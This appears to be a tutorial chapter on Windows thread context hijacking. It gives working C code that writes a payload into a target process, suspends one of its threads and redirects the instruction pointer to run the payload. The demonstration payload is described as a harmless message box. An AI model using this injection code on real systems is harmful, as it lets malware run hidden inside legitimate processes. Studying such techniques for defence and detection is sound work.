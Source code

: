 # Thread Context Injection
In this injection technique, we hijack a thread in the remote process and set the instruction pointer to our payload in the target process's address space. This forces the remote thread to run our payload instead of whatever it was doing. One major drawback of this technique is that, if we hijack a critical thread, we might end up crashing the program into which we are injecting. With that out of the way, let us look at the code. 

## The Code
The program has a familiar `main()` function:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_thread_context(pid);
    return 0;
}
```
The `main()` function finds the Process ID (`pid`) of the target process and passes it onto the `inject_thread_context()` function, where the magic happens. 

But, before we get into the `inject_thread_context()` function, there is another function we need to take a look at first: `find_threadid()` - which is responsible for finding a valid Thread ID in the target process to which we can acquire a handle to.

The `find_threadid()` function has the following code:
```c
// Find thread ID in a process
DWORD find_threadid(DWORD pid) {
    THREADENTRY32 thEntry;
    thEntry.dwSize = sizeof(THREADENTRY32);
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    BOOL result = Thread32First(hThreadSnap, &thEntry);
    while (Thread32Next(hThreadSnap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid) {
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID); 
            if (!IS_HANDLE_INVALID(hThread)) {
                CloseHandle(hThread);
                CloseHandle(hThreadSnap);
                return thEntry.th32ThreadID;
            }
            CloseHandle(hThread);
        }
    }
    CloseHandle(hThreadSnap);
    return 0;
}
```
It is _very_ similar to the `find_pid()` function we have been using so far. Just like with `find_pid()`, we use the `CreateToolhelp32Snapshot()` to create a system snapshot with the `TH32CS_SNAPTHREAD` parameter to include all threads in the system in the snapshot. 

We then use `Thread32First()` to retrieve information about the first thread of any process encountered in a system snapshot. Then, we iterate over the entries in the snapshot with `Thread32Next()` and check the `th32OwnerProcessID` value of the `THREADENTRY32` structs to see if it belongs to the target process. If it does, we try to open a handle to the thread with `OpenThread()`, and if a valid handle is acquired, we close all open Handles and return the Thread ID. (See: [this MSDN post](https://learn.microsoft.com/en-us/windows/win32/toolhelp/traversing-the-thread-list))

Coming back to the `thread_context_injection()` function, it has the following code:
```c
int inject_thread_context(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);

    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);

    dResult = SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_CONTROL;
    bResult = GetThreadContext(hThread, &ctx);
    #ifdef _M_IX86 
        ctx.Eip = (DWORD_PTR) pRemoteCode;
    #else
        ctx.Rip = (DWORD_PTR) pRemoteCode;
    #endif
    bResult = SetThreadContext(hThread, &ctx);
    dResult = ResumeThread(hThread);

    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

The function can be broken into four major parts:
- Opening necessary handles
- Allocating memory and copying payload in the target process's virtual memory
- Setting thread context to our payload
- Waiting for our payload to finish execution

We begin by finding a valid thread id belonging to the target process and once we have it, we get a handle to it using `OpenThread()` as well as fetching a handle to the target process using `OpenProcess()`.

Then, we use the `VirtualAllocEx()` and `WriteProcessMemory()` combination to allocate memory for our payload into the target process's virtual memory and copy our payload into the allocated memory region.

Finally, we put the thread in suspended state using `SuspendThread()`. Then we proceed the fetch the context of the specified thread using `GetThreadContext()` function. The parameters passed to the function are:
- The handle to the selected thread (`hThread`)
- A pointer to a `CONTEXT` struct(`ctx`) with the `ContextFlags` set to `CONTEXT_CONTROL` to retrieve information about the various processor states, but most importantly the value of `Eip`/`Rip` register.

The `GetThreadContext()` function populates the `CONTEXT` structure(`ctx`) with the requested information. Next up, we check if the `_M_IX86` pre-processor directive is defined or not. This helps us to determine if the compilation is done for x86 or x64, and according to the architecture, we point the respective Instruction Pointer to the address of the payload in the target process's virtual memory. 

With this thread context now modified and the instruction pointer now pointing to the payload, we use the `SetThreadContext()` function to update the thread context. Then, we use the `ResumeThread()` function to resume the execution of the thread from the suspended state.  

Finally, we wait for the thread to complete execution with `WaitForSingleObject()` and then close all open handles like good boys.

Compiling and running our program, we see our _"Hello World"_ message box pop up as expected!

![](./imgs/thread_context.png)

We can also see the Thread ID of the thread we hijacked in Process Hacker2 as:

![](./imgs/thread_context_process_hacker.png)